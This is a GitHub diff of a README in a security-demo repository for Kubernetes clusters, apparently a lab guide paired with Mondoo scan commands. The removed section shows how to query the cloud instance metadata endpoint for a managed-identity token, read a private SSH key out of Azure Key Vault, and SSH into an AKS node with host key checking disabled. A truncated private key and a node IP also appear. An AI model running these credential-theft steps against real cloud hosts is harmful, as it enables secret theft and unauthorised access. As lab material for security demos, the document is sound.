

Before and after one commit to mondoohq/samples, a Markdown page: gke/README.md, 2 parts joined by grey strips. Shown: that part at 84% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
added more
Signed-off-by: Manuel Weber <manuel@mondoo.com>

````diff
--- a/gke/README.md
+++ b/gke/README.md
@@ -379,52 +379,7 @@ aks-default-41472297-vmss000000   Ready    agent   24m   v1.22.11
 aks-default-41472297-vmss000001   Ready    agent   24m   v1.22.11
 ```
 
-### Get keys from keyvault
-
-Get the instance metadata
-
-```bash
-curl -s -H Metadata:true --noproxy "*" 'http://169.254.169.254/metadata/instance?api-version=2021-02-01'
-```
-
-Extract the keyvault name
-
-```text
-{ "name": "keyvault", "value": "keyvaultLunalectric-akic" }
-```
-
-Get the token and query for the key:value
-
-```text
-TOKEN=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net" -H "Metadata: true" | jq -r ".access_token" ) && curl -vk -s -H Metadata:true --noproxy "*" 'https://keyvaultLunalectric-akic.vault.azure.net/secrets/private-ssh-key?api-version=2016-10-01' -H "Authorization: Bearer $TOKEN"
-```
-
-Extract the ssh private key and save it in `key-ssh`
-
-```
-----BEGIN RSA PRIVATE KEY-----\nMIIJKgIBAA
-....
-```
-
-Fix the format of the ssh private key and the permissions
-
-```bash
-cat key-ssh |sed 's/\\n/\n/g' > new-ssh-key
-
-chmod 600 new-ssh-key
-```
-
-Get the public IP of the AKS node
-
-```bash
-curl -4 icanhazip.com
-```
-
-Connect via ssh to the AKS node
-
-```bash
-ssh -o StrictHostKeyChecking=no -i new-ssh-key ubuntu@40.88.137.64
-```
+### More Priv-Esc from node (google compute instance)
 
 ## Mondoo scan commands
 
@@ -506,10 +461,10 @@ List Google Compute Instances (VMs)
 gcp.compute.instances { * }
 ```
 
-Get access policies of all key stores
+Get properties of all key rings
 
 ```bash
-azure.keyvault.vaults { vaultName properties }
+gcp.project.kms.keyrings {*}
 ```
 
 ## Destroy the cluster
````
